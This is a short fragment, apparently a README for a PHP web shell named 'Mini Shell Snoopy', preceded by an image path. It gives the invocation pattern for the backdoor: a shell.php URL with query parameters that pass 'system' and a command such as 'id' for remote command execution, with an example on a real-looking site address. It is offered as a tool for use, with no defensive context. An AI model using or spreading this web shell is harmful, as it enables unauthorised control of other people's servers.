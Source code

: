 #Mini Shell Snoopy
How to use access your shell: php?_=system&__=id<br>
Example: site.co.li/shell.php?_=system&__=id
